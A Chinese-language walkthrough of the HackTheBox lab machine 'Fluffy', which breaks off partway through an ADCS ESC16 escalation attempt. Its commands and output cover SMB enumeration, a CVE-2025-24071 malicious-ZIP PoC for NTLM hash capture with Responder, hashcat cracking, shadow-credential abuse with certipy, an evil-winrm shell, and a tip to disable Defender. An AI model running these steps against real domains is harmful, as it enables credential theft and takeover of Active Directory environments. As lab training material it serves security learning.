





## Fluffy

#### 靶机有给出‘帐户的凭据启动 Fluffy box：j.fleischman / J0elTHEM4n1990！’

```
[★]$ nmap -sC -sV 10.129.56.0
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-07 01:52 CST
Nmap scan report for 10.129.56.0
Host is up (0.0092s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-07 14:52:55Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-07T14:54:15+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2026-01-07T14:54:15+00:00; +7h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-07T14:54:15+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2026-01-07T14:54:15+00:00; +7h00m00s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-07T14:53:38
|_  start_date: N/A
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```
#### 加入域名
```
[★]$ echo "10.129.56.0 fluffy.htb dc01.fluffy.htb" | sudo tee -a /etc/hosts
```
#### 使用提供的凭据J0elTHEM4n1990！，让我们枚举SMB服务。
#### crackmapexec（简称 CME）是一个：专门用来“批量测试 Windows 域 / 主机的认证、权限和横向能力”的后渗透枚举工具
#### “我这组账号能在这台 Windows 上干到什么程度？”
```
[★]$ crackmapexec smb 10.129.56.0 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --shares
<SNIP>
SMB         10.129.56.0     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.129.56.0     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
SMB         10.129.56.0     445    DC01             [*] Enumerated shares
SMB         10.129.56.0     445    DC01             Share           Permissions     Remark
SMB         10.129.56.0     445    DC01             -----           -----------     ------
SMB         10.129.56.0     445    DC01             ADMIN$                          Remote Admin
SMB         10.129.56.0     445    DC01             C$                              Default share
SMB         10.129.56.0     445    DC01             IPC$            READ            Remote IPC
SMB         10.129.56.0     445    DC01             IT              READ,WRITE  
SMB         10.129.56.0     445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.56.0     445    DC01             SYSVOL          READ            Logon server share
```
#### 查找到一个名为IT的SMB共享，该共享对相关用户具有READ和WRITE权限。让我们连接到分享并进一步列举。
```
[★]$ smbclient '//10.129.56.0/IT' -U 'j.fleischman%J0elTHEM4n1990!'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan  7 09:01:21 2026
  ..                                  D        0  Wed Jan  7 09:01:21 2026
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 10:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 10:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 10:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 10:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 09:31:07 2025

		5842943 blocks of size 4096. 1499823 blocks available
smb: \> 
```
#### 在连接到共享后，我们看到一个名为升级通知。PDF的PDF文件。让我们下载它以进一步了解调查。
```
smb: \> get Upgrade_Notice.pdf
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (410.8 KiloBytes/sec) (average 410.8 KiloBytes/sec)
```
#### 在通知的下面，有一个表，其中包含一些最近发现的漏洞。其中之一CVE-2025-24071是一个Windows文件资源管理器欺骗漏洞，允许攻击者检索提取ZIP文件时的用户的NTLM散列。Library-ms文件，如下所述。

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-24071
#### Microsoft Windows 文件资源管理器欺骗漏洞 CVE-2025-24071
https://nsfocusglobal.com/windows-file-explorer-spoofing-vulnerability-cve-2025-24071/
#### 由于我们有一个可写的SMB共享，让我们尝试利用这个漏洞。首先，应该使用POC创建带有有效负载的恶意ZIP归档
https://github.com/0x6rss/CVE-2025-24071_PoC/tree/main
```
[★]$ git clone https://github.com/0x6rss/CVE-2025-24071_PoC.git

[★]$ ls
CVE-2025-24071_PoC
[★]$ cd CVE-2025-24071_PoC
[CVE-2025-24071_PoC][★]$ ls
poc.py  README.md
CVE-2025-24071_PoC][★]$ python3 poc.py
Enter your file name: 11
Enter IP (EX: 192.168.1.162): 10.10.14.190  //本地IP，反弹到本地
completed
CVE-2025-24071_PoC][★]$ ls
exploit.zip  poc.py  README.md
```
#### 现在，必须启动响应器工具以侦听任何NTLM身份验证请求。要先侦听，再上传
```
[★]$ sudo responder -I tun0
```
#### 这将创建一个exploit.zip文件，该文件应该上传到可写SMB共享中
```
[★]$ smbclient '//10.129.56.0/IT' -U 'j.fleischman%J0elTHEM4n1990!'
Try "help" to get a list of possible commands.
smb: \> put exploit.zip
putting file exploit.zip as \exploit.zip (10.3 kb/s) (average 10.3 kb/s)
smb: \> ls
 <SNIP>
  exploit.zip                         A      326  Wed Jan  7 09:25:05 2026
</SNIP>
```
#### 几秒钟后，我们收到来自p.agila用户的NTLM身份验证请求。保存一下散列到一个文件，并将其传递给hashcat。
```
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.56.0
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:c5074942ead6d04d:C023BEF393E38FB7BEE324E61261D896...<SNIP>...30000000000000000000
</SNIP>
```
#### NTLMv2 Challenge/Response hash,结构分析：
```
[username :: domain : server_challenge : ntproofstr : 超长blob] //Responder 抓到的 hash，99% 是 5600
```
```
[★]$ vi hash
[★]$ cat hash
p.agila::FLUFFY:c5074942ead6d04d:C023BEF393E38FB7BEE324E61261D896...<SNIP>...30000000000000000000
```
```
[★]$ cp /usr/share/wordlists/rockyou.txt.gz .
[★]$ gunzip rockyou.txt.gz
[★]$ hashcat -m 5600 hash rockyou.txt
P.AGILA::FLUFFY:c5074942ead6d04d:c023bef393e38fb7bee324e61261d896:0...<SNIP>...30000000000000000000:prometheusx-303
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: P.AGILA::FLUFFY:c5074942ead6d04d:c023bef393e38fb7be...000000
</SNIP>
```
#### 解开的hash为prometheusx-303
### Foothold
#### 使用这些凭据，应该使用Bloodhound枚举Active Directory环境。
```
[★]$ bloodhound-python -d fluffy.htb -u 'p.agila' -p 'prometheusx-303' -dc 'dc01.fluffy.htb' -c all -ns 10.129.56.0
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 02S
```
#### 在本地，我们应该启动neo4j服务，然后将数据上传到Bloodhound。
```
[★]$ sudo neo4j console
Directories in use:
home:         /var/lib/neo4j
config:       /etc/neo4j
logs:         /var/log/neo4j
plugins:      /var/lib/neo4j/plugins
import:       /var/lib/neo4j/import
data:         /var/lib/neo4j/data
certificates: /var/lib/neo4j/certificates
licenses:     /var/lib/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
2026-01-07 09:07:23.217+0000 INFO  Logging config in use: File '/etc/neo4j/user-logs.xml'
2026-01-07 09:07:23.235+0000 INFO  Starting...
2026-01-07 09:07:23.976+0000 INFO  This instance is ServerId{d8173e88} (d8173e88-c17d-4348-ba6f-76a2369f3935)
2026-01-07 09:07:25.023+0000 INFO  ======== Neo4j 5.26.1 ========
2026-01-07 09:07:26.381+0000 INFO  Anonymous Usage Data is being sent to Neo4j, see https://neo4j.com/docs/usage-data/
2026-01-07 09:07:26.410+0000 INFO  Bolt enabled on localhost:7687.
2026-01-07 09:07:26.964+0000 INFO  HTTP enabled on localhost:7474.
2026-01-07 09:07:26.965+0000 INFO  Remote interface available at http://localhost:7474/
2026-01-07 09:07:26.967+0000 INFO  id: A05F110BB1E774863A7B4E375F211472F72974D0151DA945A4E879108D47C7CA
2026-01-07 09:07:26.967+0000 INFO  name: system
2026-01-07 09:07:26.967+0000 INFO  creationDate: 2024-10-07T10:34:41.232Z
2026-01-07 09:07:26.967+0000 INFO  Started.
```
#### 浏览器打开localhost:7474 
#### 输入帐号 neo4j 密码neo4j
```
[★]$ bloodhound
```
#### 输入帐号 neo4j 密码neo4j
#### 点击右上角Upload Data, 然后导入数据 ‘使用Bloodhound枚举Active Directory环境’产生的7个.json文件

#### 数据导入完成之后搜索用户p.agila

#### 要查看该用户的对象控件，我们导航到节点信息->出站对象控制->传递对象控制。Node Info -> Outbound Object Control -> Transitive Object Control 
#### 发现[SERVICE ACCOUNTS@FLUFFY.HTB的3个分线可以GenricWrite]

#### 点击[SERVICE ACCOUNTS@FLUFFY.HTB]-> Transitive Object Control 

#### service account managers该群体对其他群体拥有哪些ACE优势service accounts？
#### GenericAll（最高价值）含义：对 Service Accounts 对象拥有完全控制权
```
从这个输出中，有两件事需要注意。
1. p.agila用户是服务帐户管理器组的一部分，该组具有GenericAll ACL在服务帐户组上。
2. 服务帐户组对ca_svc用户具有GenericWrite ACL，该用户属于证书发布者组。
进一步枚举服务帐户（按照上述方法查看传递对象控件Transitive Object Control ）显示，
该组不仅在ca_svc上有GenericWrite，而且在其他两个帐户上也有GenericWrite。
Winrm_SVC和ldap_SVC

还应该注意的是，winrm_svc用户是远程管理用户的一部分，它允许使用WinRM连接到目标。
要利用这一点，必须使用以下攻击路径。
首先，应该使用GenericAll ACL将我们自己添加到服务帐户中组。
为此，让我们使用bloodyAD。
```
#### 注： 从bloodyAD的下载开始要进入root执行命令
```
sudo apt install pipx -y
pipx ensurepath
pipx uninstall bloodyAD
pipx install bloodyAD

[★]$ sudo su
# pipx install --force bloodyAD
Installing to existing venv 'bloodyad'
  installed package bloodyad 2.5.2, installed using Python 3.11.2
  These apps are now globally available
    - bloodyAD
    - bloodyad
done! ✨ 🌟 ✨
```
```
# bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.56.0 add groupMember 'service accounts' p.agila
[+] p.agila added to service accounts
```
#### 利用 GenericWrite → 写入 msDS-KeyCredentialLink → 伪造身份 → 再用其他方式拿 NT/RC4 hash
#### 然后，作为服务帐户组的成员，应该使用GenericWrite ACL进行添加将影子凭证发送给winrm_svc和ca_svc用户，以检索他们的RC4密码哈希值。为此，我们可以使用证书。
```
#sudo ntpdate 10.129.56.220
2026-01-08 11:03:57.607992 (-0600) +25199.991565 +/- 0.004602 10.129.56.220 s1 no-leap
CLOCK: time stepped by 25199.991565
#certipy shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c5a2caf4-7abe-df29-4402-a6a609f20574'
[*] Adding Key Credential with device ID 'c5a2caf4-7abe-df29-4402-a6a609f20574' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'c5a2caf4-7abe-df29-4402-a6a609f20574' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8

#certipy shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account winrm_svc
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '6c55cc41-bcc2-6c67-fc17-df34eddabbd7'
[*] Adding Key Credential with device ID '6c55cc41-bcc2-6c67-fc17-df34eddabbd7' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '6c55cc41-bcc2-6c67-fc17-df34eddabbd7' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
```
#### 使用winrm_svc用户的RC4散列，应该可以通过winrm访问目标。因此，我们使用Evil-winrm获得交互式外壳。
```
#evil-winrm -u 'winrm_svc' -H 33bd09dcd697600edf6b3a7af4875767 -i dc01.fluffy.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> whoami
fluffy\winrm_svc
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> cat user.txt
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> exit
                                        
Info: Exiting with code 0
```
### Privilege Escalation
#### 应该在Active Directory环境中进行进一步的枚举。应该发现目标器中正在运行Active Directory证书服务。让我们使用crackmapexec来确认这一点使用adc模块。
#### 注:使用crackmapexec不要在root权限执行
```
[★]$ crackmapexec ldap 10.129.232.88 -u 'winrm_svc' -H 33bd09dcd697600edf6b3a7af4875767 -M adcs
<SNIP>
LDAP        10.129.232.88   389    10.129.232.88    [-] Error retrieving os arch of 10.129.232.88: Could not connect: timed out
SMB         10.129.232.88   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
LDAP        10.129.232.88   389    DC01             [+] fluffy.htb\winrm_svc:33bd09dcd697600edf6b3a7af4875767
ADCS        10.129.232.88   389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.232.88   389    DC01             Found PKI Enrollment Server: DC01.fluffy.htb
ADCS        10.129.232.88   389    DC01             Found CN: fluffy-DC01-CA
```
#### '(objectClass=pKIEnrollmentService)'这是一个 LDAP 搜索条件,在整个 AD 里，找所有 证书颁发机构（CA）对象
#### 只要能在 LDAP 里搜到这个 objectClass，就说明
| 能说明什么           | 是否成立 |
| --------------- | ---- |
| 域内启用了 AD CS     | ✅    |
| 存在至少一个 CA       | ✅    |
| CA 对象可被 LDAP 枚举 | ✅    |
| 有可能存在 ESC 漏洞    | ✅    |
#### 由于我们知道ADCS安装在域控制器上，我们可以使用证书来查找易受攻击的漏洞模板。为此，我们必须使用检索到的ca_svc用户的RC4散列早些时候。
https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally

### 0.尝试一下使用windows环境
#### 1.在win11添加域名：搜索'记事本‘,管理员权限打开，在路径C:\Windows\System32\drivers\etc\hosts添加域名，最后所有文件 (*.*)保存。
#### 2.Google搜索‘Certify\bin\x64\Release\Certify.exe‘
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
#### Certify / Rubeus / SharpHound / bloodyAD 全部在 Defender 默认杀软特征库里(windows)
```
操作路径（Win11 中文）：
Windows 安全中心
病毒和威胁防护
管理设置
关闭：
✅ 实时保护
（可选）云提供的保护
（可选）自动提交样本
⏱ 只在你运行工具时关闭，用完再开
```
```
PS C:\Users\Desktop> echo $env:PROCESSOR_ARCHITECTURE
ARM64
```
#### ARM64 + Defender + x64 红队工具 = 地狱模式
#### Certify 在「非域 Windows + ARM64 + 非企业网络」环境下，本质上不可用。已经把 Certify 能踩的坑 全部踩完并排除了

### 1.判定ESC16的条件
```
1️⃣ CA 不强制 SAN / Web Enrollment 关闭
User Specified SAN : Disabled
Web Enrollment     : Disabled
Request Disposition: Issue
2️⃣ ADCS 可用
(objectClass=pKIEnrollmentService)
Found CN: fluffy-DC01-CA
3️⃣ 你已经能通过 shadow credentials + PKINIT 交互
这恰恰是 ESC16 的“前置舞台”
真正的验证方式只有一个：
直接用证书 → 请求 TGT → 看 Kerberos 是否接受
certipy auth -pfx xxx.pfx -dc-ip 10.10.11.69
如果能成功换到 TGT → ESC16 成立

如果满足以下 3 点，你就“按 ESC16 打”，不用等 Certipy 承认：
1️⃣ 有 ADCS
2️⃣ 无明显 ESC1~ESC8
3️⃣ 能玩 PKINIT / Shadow Credentials
 这题 99% 就是 ESC16
```
#### 当所有命令都在非root执行时，依旧是没有出现‘ESC16’的字样
```
[★]$ certipy find -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.232.88 -vulnerable -enabled -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'fluffy-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'fluffy-DC01-CA' via CSRA: Could not connect: timed out
[*] Trying to get CA configuration for 'fluffy-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'fluffy-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
Certificate Templates                   : [!] Could not find any certificate templates
```
#### 根据官方文档：应该分析证书工具的输出，以确定此安装容易受到ESC16攻击。这种攻击利用了一个错误的配置，其中CA被全局配置为禁用包括szOID_NTDS_CA_SECURITY_EXT安全扩展。
#### 要利用这一点，我们首先需要将ca_svc用户的UPN（用户主体名称）更新为管理员。

```
[★]$ certipy account -u p.agila -p prometheusx-303 -dc-ip 10.129.60.35 -user ca_svc read
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
//没有看到 userPrincipalName为ca_svc@fluffy.htb
```
```
#certipy req \
> -u ca_svc \
> -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 \
> -dc-ip 10.129.62.52 \
> -target dc01.fluffy.htb \
> -ca 'fluffy-DC01-CA' \
> -template User \
> -upn administrator@fluffy.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 18
[*] Got certificate with UPN 'ca_svc@fluffy.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'ca_svc.pfx'
```
#### 用刚拿到的 ca_svc.pfx 去请求 TGT（尝试以证书身份登录）
```
#certipy auth -pfx ca_svc.pfx -dc-ip 10.129.62.52
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: ca_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Got hash for 'ca_svc@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:ca0f4f9e9eb8a092addf53bb03fc98c8
```
#### 以 ca_svc 身份完成 PKINIT 登录
#### ESC16（No Security Extensions / No SID Enforcement）：CA 不验证证书里的“身份声明”是否和 AD 对象匹配
```
也就是说：

👉 你不需要改 ca_svc 的 UPN
